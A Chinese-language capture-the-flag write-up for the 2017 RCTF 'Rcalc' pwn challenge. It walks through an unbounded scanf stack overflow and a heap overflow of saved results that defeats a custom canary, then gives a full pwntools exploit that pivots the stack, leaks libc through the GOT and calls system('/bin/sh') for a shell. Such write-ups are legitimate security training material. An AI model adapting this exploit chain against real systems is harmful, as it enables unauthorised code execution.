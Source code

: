 ```yaml
---
title: 2017 RCTF Rcalc
date: 2017-05-28 10:44:45
tags:
- stackoverflow
- stack pivot
categories:
- ctf_practice
---
```


这题Rcalc，看到题第一印象出现了boston-key-party-2016的两个[pwn](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn)题，可惜我没做~~本来打算做的，被大大小小的事耽搁了。

## Challenge
首先找洞，我找的是个栈溢出和堆溢出。
<!-- more -->
```c
__int64 level1_func()
{
  __int64 result; // rax@1
  char name; // [sp+0h] [bp-110h]@1
  __int64 v2; // [sp+108h] [bp-8h]@1

  v2 = get_rand();
  printf("Input your name pls: ");
  __isoc99_scanf("%s", &name);
  printf("Hello %s!\nWelcome to RCTF 2017!!!\n", &name);
  puts("Let's try our smart calculator");
  main_handle("Let's try our smart calculator");
  result = get_rand_2();
  if ( result != v2 )
    failed();
```

看这个scanf，没加长度限制啊，而且没开栈保护，美滋滋。(我TM服了，这虚拟机总出问题)

## Exploit
以前总没太在意stack pivot这种技术(可能经验太少吧~~)，现在觉得挺有用的，这题就需要利用leave指令来改变栈指针。
需要注意的是有检测v2是否被覆盖，这就相当于开了栈保护了。但是我们是可以控制v2和result的。
```c
__int64 get_rand_2()
{
  return *(*(malloc_0x10_2 + 8) + 8LL * (*malloc_0x10_2)-- - 8);
}
```
从main_handle返回时，*malloc_0x10_2等于1，所以其实最后get_rand_2返回的值为malloc(0x320)上的第一个long类型的值。我前面没看仔细，main_handle里面的检测是可以通过的，因为在main_handle里面执行get_rand_2时，*malloc_0x10_2等于2，比较的是p2这个堆块中的第二个long类型的值。
```shell
	---------------
	|malloc(0x10) |
	|--------------
	|malloc(0x10) |
	|-------------|
	|malloc(0x100)|<---saving results
	|-------------|
	|malloc(0x320)| p2
	|-------------|
```
可以通过不断save results来溢出使最后一次结果存到p2上。美滋滋，先存0x100/8=0x22次然后在存一次就行了。接下来就是ROP了。其实就一普通栈溢出，没什么难的，栈溢出就那么点套路，不像堆那样套路满满。

```python
#!/usr/bin python
from pwn import *

debug = 1
gdb_debug = 1

if debug:
  p = process('./Rcalc')
  libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
  #context.log_level = "debug"
else:
  p = remote('rcalc.2017.teamrois.cn', 2333)
  libc = ELF('libc.so.6')

elf = ELF('Rcalc')

def add(int1, int2):
  p.recvuntil("Your choice:")
  p.sendline('1')
  p.recvuntil("input 2 integer: ")
  p.sendline(str(int1))
  p.sendline(str(int2))
  p.recvuntil("Save the result? ")
  p.sendline("yes")

mov3_call = 0x401100 
pop6_ret = 0x40111A
pop_rdi_ret = 0x401123
#however, 0x400cbd not working
#0x0000000000400cbd : leave; ret
leave_ret = 0x401034

bss = 0x602300
read_got = elf.got['read']
'''
we must attention that when scanf will stop read data from streams
when space character, tab character, line feeds and some othter characters
read_got includes '\x20', so we must do a little deal with it
'''
#read(0, bss, 0x100) and stack pivot
payload = 'a' * 0x108
payload += p64(2)
payload += 'b' * 8
payload += p64(pop6_ret)
payload += p64(0x60)
payload += p64(0x60 + 1)
payload += p64(0x601D50)
payload += p64(0x100)
payload += p64(bss)
payload += p64(0)
payload += p64(mov3_call)
payload += 'a' * 8
payload += p64(0)
payload += p64(bss -8)  #rbp
payload += 'a' * 32
payload += p64(leave_ret)

p.recvuntil("Input your name pls: ")
p.sendline(payload)

#heap overflow 
for i in range(0x22):
  add(1, 1)
add(1, 1)

p.recvuntil("Your choice:")
p.sendline('5')
#gdb.attach(p)

puts_plt = elf.symbols['puts']
payload2 = p64(pop_rdi_ret)
payload2 += p64(read_got)
payload2 += p64(puts_plt)
#read(0, bss + 0x100, 0x100) and stack pivot
#avoid to overlap previous stack data
payload2 += p64(pop6_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(read_got)
payload2 += p64(0x100)
payload2 += p64(bss + 0x100)
payload2 += p64(0)
payload2 += p64(mov3_call)
payload2 += 'a' * 8
payload2 += p64(0)
payload2 += p64(bss -8 + 0x100)  #rbp
payload2 += 'a' * 32
payload2 += p64(leave_ret) #mov rsp, rbp; pop rbp

p.sendline(payload2)
read_addr = u64(p.recv(6).ljust(8, '\x00'))
print "read_addr: " + hex(read_addr)
libc_addr = read_addr - libc.symbols['read']
print "libc_addr: " + hex(libc_addr)
system_addr = libc_addr + libc.symbols['system']
print "system_addr: " + hex(system_addr)
binsh_addr = libc_addr + next(libc.search('/bin/sh'))
print "binsh_addr: " + hex(binsh_addr)

payload3 = p64(pop_rdi_ret)
payload3 += p64(binsh_addr)
payload3 += p64(system_addr)

p.sendline(payload3)

p.interactive()
```






